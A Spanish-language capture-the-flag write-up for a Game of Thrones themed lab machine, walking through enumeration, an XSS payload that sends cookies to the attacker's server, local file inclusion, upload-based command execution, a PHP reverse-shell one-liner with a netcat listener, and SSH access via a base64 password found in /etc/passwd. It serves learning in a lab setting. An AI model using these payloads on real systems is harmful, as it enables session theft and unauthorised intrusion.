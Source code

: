 
# Reto 4

## Paso 1

Luego de configurar la maquina e iniciarla esta mostraba la ip de la misma al cual le hicimos un escaneo con nmap.

Encontramos el puerto 80 con un servidor apache y ssh en el 22.

## Paso 2

con wfuzz buscamos rutas y encontramos las siguientes:

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                              
=====================================================================
                        
000004946:   200        19 L     66 W       665 Ch      "comentarios"                        
000009563:   200        31 L     118 W      964 Ch      "index"                              
000017880:   200        0 L      5 W        37 Ch       "test"
```

la ruta test no tenia nada interesante, pero comentarios e index si:

index.php

![Captura de pantalla -2024-05-20 21-23-52](https://github.com/halexys/UciTeam1/assets/72656657/ee703efd-eca9-4325-b369-1836d4c5be6c)


comentarios.php

![Captura de pantalla -2024-05-20 21-27-34](https://github.com/halexys/UciTeam1/assets/72656657/c1b5bf4e-53b5-4df3-87f0-b2547c2055dc)


Este ultimo tenia tres cosas interesantes.

- Establecia una cookie user con un valor aleatorio y la mostraba en el texto "Tu llave es:"
- un enlace "http://palaces.dorne.got"
- un formulario con un textarea para enviar un "comentario"

&nbsp;

## Paso 3

Analizamos la web y encontramos q era vulnerable a XSS, enviando una etiqueta html con un pequeño codigo javascript en el comentario

&nbsp;

el cual enviaba a un sevidor q poniamos en escucha con python las cookies.

```html
<script>document.write('<img src="http://IP:PORT/'+document.cookie+'"/> ')</script>
```

lo q devolvio:

![Captura de pantalla -2024-05-20 21-44-17](https://github.com/halexys/UciTeam1/assets/72656657/4ea0930f-e349-4171-a296-aea0a3e52cf0)


de aqui la cookie interesante era user=Unbowed,Unbent,Unbroken

## Paso 4

tras un rato de intentar cosas pusimos la url q aparecia en esta pagina en /etc/hosts

y abrio otra pagina:

![Captura de pantalla -2024-05-20 21-53-32](https://github.com/halexys/UciTeam1/assets/72656657/09259921-848e-4765-ad44-8b8c292e5f59)


no demoramos mucho en darnos cuenta q teniamos q establecer la cokie q debolvio el XSS y nos permitio "Acceso" y la primera flag:

flag: flag{j4rd1n-Alc4z4r}

![Captura de pantalla -2024-05-20 21-55-52](https://github.com/halexys/UciTeam1/assets/72656657/f088ff70-9224-4955-992c-cf477c44067b)


junto con la flag otra url la cual agregamos a host : http://don-pedro.dorne.got

## ![Captura de pantalla -2024-05-20 22-05-16](https://github.com/halexys/UciTeam1/assets/72656657/c9f8e020-79c5-434a-b5bd-ff4458cc681b)


&nbsp;

### PASO 5

al darle en cambiar idioma salio lo siguiente al final de la pagina:

![Captura de pantalla -2024-05-20 22-10-27](https://github.com/halexys/UciTeam1/assets/72656657/5ee2f7b1-30a6-451d-99bd-eab212ed410c)


Era bastante obvio el LFI(loca file inclusion) ya q al principio de cada linea estaban las letras LFI y directamente probamos con file=flag.txt (el texto era muy obvio) y luego con access.txt

![Captura de pantalla -2024-05-20 22-14-19](https://github.com/halexys/UciTeam1/assets/72656657/1bdb0ae5-194d-4c20-9ac1-6e22e8749224)


![Captura de pantalla -2024-05-20 22-15-46](https://github.com/halexys/UciTeam1/assets/72656657/d8035307-fe5c-41bf-8a1f-3da493dcd2e2)


una nueva url en el acces.txt y un usuario y contraseña?

![Captura de pantalla -2024-05-20 22-18-16.png](file:///home/hal/.config/joplin-desktop/resources/03493391b5a144bbb7443bd37128c951.png)

al ingresar el usario y la contraseña sale lo siguiente:

![Captura de pantalla -2024-05-20 22-19-33.png](file:///home/hal/.config/joplin-desktop/resources/9a754cc75d534cd680387a81eb81e125.png)

## Paso 6

probamos subir un archivo cualquiera:

![Captura de pantalla -2024-05-20 22-22-06.png](file:///home/hal/.config/joplin-desktop/resources/c968a17f099844248f5e9b17c547f51f.png)

como dice q solo funcionara secret.sh probamos ejecutar un comando simple de bash

```bash
ls
```

y probamos con lfi en la ruta del palacio de don pedro:

![Captura de pantalla -2024-05-20 22-27-05.png](file:///home/hal/.config/joplin-desktop/resources/fc0d7c5220b2443394596dcfbd154ba2.png)

&nbsp;

Funciona la ejecucion remota de comandos, y probamos una revershell en php

```php
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

y ponemos netcat en escucha:

```bash
nc -lnvp PORT
```

![Captura de pantalla -2024-05-20 22-32-17.png](file:///home/hal/.config/joplin-desktop/resources/b434647dabce4f39a6f5ab782f104928.png)

con la revershell navegamos por algunos directorios y encontros la 3ra flag en /home/www-data

![Captura de pantalla -2024-05-20 22-36-29.png](file:///home/hal/.config/joplin-desktop/resources/665781ce9e2847f19a5498b63bc91750.png)

en /etc/passwd estaba el usuario doran y la contraseña en base64

```
doran:x:1001:1001:,,,,RDByNG4yMDI0Kgo=:/home/doran:/bin/bash
```

```
doran
D0r4n2024*
```

y luego accedimos por ssh

## Paso 7

dentro del directorio home del usuario doran habia lo siguiente:

```bash
doran@jnic2024:~$ ls
flag.txt  reto-final.txt
```

```bash
doran@jnic2024:~$ cat flag.txt 
No me fío de tu palabra, si no puedo confiar en ti, no podré entregarte la última flag
doran@jnic2024:~$
```

```bash
doran@jnic2024:~$ cat reto-final.txt 
Ya no tengo en nadie en quien confiar.

Voy a hacerte una ultima pregunta muy importante y necesito que me respondas con la verdad.

Dependiendo de tu respuesta, te dare o no la ultima flag.

Siento que alguien cercano a la familia, me va a traicionar, no se quien, pero necesito saberlo antes que sea tarde....

Podras decirme su nombre?: 

Respuesta: *******

Solo completa el nombre y te dire mi decision en el archivo flag.txt
doran@jnic2024:~$
```

Luego de googlear quien mato an doran martel encontramos q fue Ellaria y probamos reempalzar los asteriscos por Ellaria:

```bash
doran@jnic2024:~$ cat flag.txt 
Sabía que podía confiar en ti, antes de ser traicionado te entrego la última flag, cuida de Dorne!
flag{0=;;;D0rn3;;;>}
Felicidades!!! Reto D0rn3 Finalizado - Powered by j4ck 
doran@jnic2024:~$
```

&nbsp;

# FIN
